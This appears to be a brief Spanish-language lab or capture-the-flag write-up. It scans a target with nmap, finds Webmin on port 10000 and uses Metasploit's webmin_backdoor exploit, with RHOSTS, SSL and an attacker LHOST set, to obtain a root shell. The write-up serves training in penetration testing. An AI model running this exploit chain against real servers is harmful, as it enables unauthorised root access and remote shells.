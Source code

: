 Empezamos haciendo un reconocimiento básico con [[NMAP]]
`nmap -p- --open -sSCV  --min-rate 5000 -n -Pn 10.10.144.29 -oN ScanPorts.txt`

Encontramos levantados los puertos `22 SSH`, `10000 HTTP`. Navegaremos a la web en la que esta levantado el servicio `HTTP`

Vemos que el servicio que esta levant6ado al acceder hay un panel de login a Webadmin.
Usaremos [[METASPLOIT]] para ver si encontramos un exploit para este servicio
`search webmin`

Usaremos el exploit que nos habilita una backdoor.
`use  exploit/linux/http/webmin_backdoor`

Vemos las opciones de configuración.
`set RHOSTS <IP_Victima>`
`set SSL true`
`set LHOST <IP_Atacante>`

Ejecutamos el exploit con `run`
Nos obtiene una sesión pero para que sea mas legible ejecutamos el comando `shell`

Como la shell que obtenemos es de root, solo tendremos que navegar por los directorios para encontrar lo que se nos pida.

